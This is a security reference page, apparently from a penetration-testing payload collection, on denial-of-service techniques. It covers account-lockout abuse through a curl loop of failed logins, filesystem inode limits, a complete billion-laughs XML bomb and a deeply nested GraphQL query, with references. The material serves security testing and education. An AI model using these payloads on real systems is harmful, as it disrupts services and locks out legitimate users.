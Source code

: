 # Denial of Service

> A Denial of Service (DoS) attack aims to make a service unavailable by overwhelming it with a flood of illegitimate requests or exploiting vulnerabilities in the target's software to crash or degrade performance. In a Distributed Denial of Service (DDoS), attackers use multiple sources (often compromised machines) to perform the attack simultaneously.


## Summary

* [Methodology](#methodology)
    * [Locking Customer Accounts](#locking-customer-accounts)
    * [File Limits on FileSystem](#file-limits-on-filesystem)
    * [Memory Exhaustion - Technology Related](#memory-exhaustion---technology-related)
* [References](#references)


## Methodology

Here are some examples of Denial of Service (DoS) attacks. These examples should serve as a reference for understanding the concept, but any DoS testing should be conducted cautiously, as it can disrupt the target environment and potentially result in loss of access or exposure of sensitive data.


### Locking Customer Accounts

Example of Denial of Service that can occur when testing customer accounts. 
Be very careful as this is most likely **out-of-scope** and can have a high impact on the business.

* Multiple attempts on the login page when the account is temporary/indefinitely banned after X bad attempts.
    ```ps1
    for i in {1..100}; do curl -X POST -d "username=user&password=wrong" <target_login_url>; done
    ```


### File Limits on FileSystem

When a process is writing a file on the server, try to reach the maximum number of files allowed by the filesystem format. The system should output a message: `No space left on device` when the limit is reached.
 
| Filesystem | Maximum Inodes |
| ---        | --- |
| BTRFS      | 2^64 (~18 quintillion) |
| EXT4       | ~4 billion |
| FAT32      | ~268 million files |
| NTFS       | ~4.2 billion (MFT entries) |
| XFS        | Dynamic (disk size) |
| ZFS        | ~281 trillion |

An alternative of this technique would be to fill a file used by the application until it reaches the maximum size allowed by the filesystem, for example it can occur on a SQLite database or a log file.

FAT32 has a significant limitation of **4 GB**, which is why it's often replaced with exFAT or NTFS for larger files.

Modern filesystems like BTRFS, ZFS, and XFS support exabyte-scale files, well beyond current storage capacities, making them future-proof for large datasets.


### Memory Exhaustion - Technology Related

Depending on the technology used by the website, an attacker may have the ability to trigger specific functions or paradigm that will consume a huge chunk of memory.

* **XML External Entity**: Billion laughs attack/XML bomb
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```
* **GraphQL**: Deeply-nested GraphQL queries.
    ```ps1
    query { 
        repository(owner:"rails", name:"rails") {
            assignableUsers (first: 100) {
                nodes {
                    repositories (first: 100) {
                        nodes {
                            
                        }
                    }
                }
            }
        }
    }
    ```
* **Image Resizing**: try to send invalid pictures with modified headers, e.g: abnormal size, big number of pixels.
* **SVG handling**: SVG file format is based on XML, try the billion laughs attack.
* **Regular Expression**: ReDoS


## References

- [DEF CON 32 - Practical Exploitation of DoS in Bug Bounty - Roni Lupin Carta - October 16, 2024](https://youtu.be/b7WlUofPJpU)
- [Denial of Service Cheat Sheet - OWASP Cheat Sheet Series - July 16, 2019](https://cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html)